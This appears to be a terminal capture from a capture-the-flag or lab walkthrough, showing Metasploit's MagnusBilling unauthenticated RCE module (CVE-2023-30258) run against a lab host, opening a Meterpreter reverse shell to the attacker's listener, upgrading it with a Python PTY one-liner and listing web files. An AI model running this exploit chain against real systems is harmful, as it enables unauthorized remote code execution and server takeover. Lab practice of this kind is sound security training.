 ```bash
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST tun0
LHOST => 10.17.58.140
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.226.90
RHOSTS => 10.10.226.90
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.17.58.140:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.226.90:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 4 seconds.
[*] Elapsed time: 4.42 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.226.90
[+] Deleted vrAxIbtYSJCwHJ.php
[*] Meterpreter session 1 opened (10.17.58.140:4444 -> 10.10.226.90:43714) at 2025-07-02 10:01:00 +0530


meterpreter > getguid
[+] Session GUID: ca0b7ce1-de7c-4d2e-bbe9-4d1e5dfbbea1
meterpreter > getuid
Server username: asterisk
meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > shell
Process 2420 created.
Channel 0 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
asterisk@ip-10-10-226-90:/var/www/html/mbilling/lib/icepay$ ls -al
ls -al
total 80
drwxr-xr-x 2 asterisk asterisk  4096 Jul  1 19:31 .
drwx------ 9 asterisk asterisk  4096 Feb 27  2024 ..
-rwx------ 1 asterisk asterisk   768 Feb 27  2024 icepay-cc.php
-rwx------ 1 asterisk asterisk   733 Feb 27  2024 icepay-ddebit.php
-rwx------ 1 asterisk asterisk   736 Feb 27  2024 icepay-directebank.php
-rwx------ 1 asterisk asterisk   730 Feb 27  2024 icepay-giropay.php
-rwx------ 1 asterisk asterisk   671 Feb 27  2024 icepay-ideal.php
-rwx------ 1 asterisk asterisk   720 Feb 27  2024 icepay-mistercash.php
-rwx------ 1 asterisk asterisk   710 Feb 27  2024 icepay-paypal.php
-rwx------ 1 asterisk asterisk   699 Feb 27  2024 icepay-paysafecard.php
-rwx------ 1 asterisk asterisk   727 Feb 27  2024 icepay-phone.php
-rwx------ 1 asterisk asterisk   723 Feb 27  2024 icepay-sms.php
-rwx------ 1 asterisk asterisk   699 Feb 27  2024 icepay-wire.php
-rwx------ 1 asterisk asterisk 25097 Mar 27  2024 icepay.php
-rw-r--r-- 1 asterisk asterisk     0 Sep 13  2024 null
asterisk@ip-10-10-226-90:/var/www/html/mbilling/lib/icepay$
```